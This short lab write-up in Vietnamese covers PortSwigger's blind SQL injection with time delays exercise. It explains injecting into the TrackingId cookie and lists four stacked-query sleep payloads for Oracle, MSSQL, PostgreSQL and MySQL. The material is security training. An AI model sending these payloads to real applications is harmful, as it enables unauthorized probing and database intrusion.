

## Blind SQL injection with time delays

1. Theo đề bài của lab thì server sẽ tiến hành truy vấn SQL bằng value của ``TrackingId`` cookie. Dựa vào Time delays trong [SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) ta sẽ thử với từng payload, với ``%3B`` là url encode của ``;`` để thực thi mutli query.
Payload:
- ```'%3B dbms_pipe.receive_message(('a'),10) --```
- ```'%3B WAITFOR DELAY '0:0:10' --```
- ```'%3B SELECT pg_sleep(10) --```
- ```'%3B SELECT SLEEP(10) --```

